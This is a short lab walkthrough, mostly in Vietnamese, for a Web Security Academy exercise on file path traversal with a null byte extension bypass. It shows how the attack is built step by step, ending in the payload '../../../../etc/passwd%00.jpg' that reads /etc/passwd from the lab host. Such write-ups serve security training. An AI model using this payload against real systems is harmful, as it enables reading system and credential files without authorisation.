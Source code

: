 # **Lab: File path traversal, validation of file extension with null byte bypass**

>  This lab contains a path traversal vulnerability in the display of product images.  
 The application validates that the supplied filename ends with the expected file extension.  
  To solve the lab, retrieve the contents of the `/etc/passwd` file.  


# **Solution**

Ứng dụng xác thực tên tệp chứa kiểu file đã xác định trước nên cần thêm ở cuối `filename` tên kiểu file ban đầu là `.jpg`.

Có filename ban đầu:

```
https://0af300de045fa25b832a734b00ec005f.web-security-academy.net/image?filename=44.jpg
```

Thay đổi filename:

```
filename=/etc/passwd
```

Cái này là mục tiêu cần lấy nhưng do ứng dụng yêu cầu kết thúc filename bằng `jpg` nên không thể được:

```
"No such file"
```

```
filename=/etc/passwd.jpg
```

Cái này cũng không được do không tồn tại file `/etc/passwd.jpg`.

Ta cần thêm ký tự null giữa filename và file extension. Tất nhiên cần mã hóa ký tự null đó.

```
filename=/etc/passwd%00.jpg
```

Ứng dụng không chấp nhận đường dẫn tuyệt đối nên ta cần sửa một chút:

```
filename=../../../../etc/passwd%00.jpg
```

Well done~~